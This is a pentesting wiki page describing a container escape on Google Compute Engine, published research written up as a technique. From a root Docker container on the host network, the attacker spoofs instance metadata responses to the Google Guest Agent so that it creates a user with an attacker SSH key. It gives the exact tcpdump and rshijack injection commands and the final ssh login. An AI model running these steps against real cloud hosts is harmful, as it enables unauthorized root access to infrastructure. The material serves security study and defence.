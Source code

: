 # GCP - Network Docker Escape

{{#include ../../../banners/hacktricks-training.md}}

## Initial State

In both writeups where this technique is specified, the attackers managed to get **root** access inside a **Docker** container managed by GCP with access to the host network (and the capabilities **`CAP_NET_ADMIN`** and **`CAP_NET_RAW`**).

## Attack Explanation

On a Google Compute Engine instance, regular inspection of network traffic reveals numerous **plain HTTP requests** to the **metadata instance** at `169.254.169.254`. The [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), an open-source service, frequently makes such requests.

This agent is designed to **monitor changes in the metadata**. Notably, the metadata includes a **field for SSH public keys**. When a new public SSH key is added to the metadata, the agent automatically **authorizes** it in the `.authorized_key` file. It may also **create a new user** and add them to **sudoers** if needed.

The agent monitors changes by sending a request to **retrieve all metadata values recursively** (`GET /computeMetadata/v1/?recursive=true`). This request is designed to prompt the metadata server to send a response only if there's any change in the metadata since the last retrieval, identified by an Etag (`wait_for_change=true&last_etag=`). Additionally, a **timeout** parameter (`timeout_sec=`) is included. If no change occurs within the specified timeout, the server responds with the **unchanged values**.

This process allows the **IMDS** (Instance Metadata Service) to respond after **60 seconds** if no configuration change has occurred, creating a potential **window for injecting a fake configuration response** to the guest agent.

An attacker could exploit this by performing a **Man-in-the-Middle (MitM) attack**, spoofing the response from the IMDS server and **inserting a new public key**. This could enable unauthorized SSH access to the host.

### Escape Technique

While ARP spoofing is ineffective on Google Compute Engine networks, a [**modified version of rshijack**](https://github.com/ezequielpereira/rshijack) developed by [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) can be used for packet injection in the communication to inject the SSH user.

This version of rshijack allows inputting the ACK and SEQ numbers as command-line arguments, facilitating the spoofing of a response before the real Metadata server response. Additionally, a [**small Shell script**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) is used to return a **specially crafted payload**. This payload triggers the Google Guest Agent to **create a user `wouter`** with a specified public key in the `.authorized_keys` file.

The script uses the same ETag to prevent the Metadata server from immediately notifying the Google Guest Agent of different metadata values, thereby delaying the response.

To execute the spoofing, the following steps are necessary:

1. **Monitor requests to the Metadata server** using **tcpdump**:

```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```

Look for a line similar to:

```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```

2. Send the fake metadata data with the correct ETAG to rshijack:

```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```

This step authorizes the public key, enabling SSH connection with the corresponding private key.

## References

- [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
- [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{{#include ../../../banners/hacktricks-training.md}}




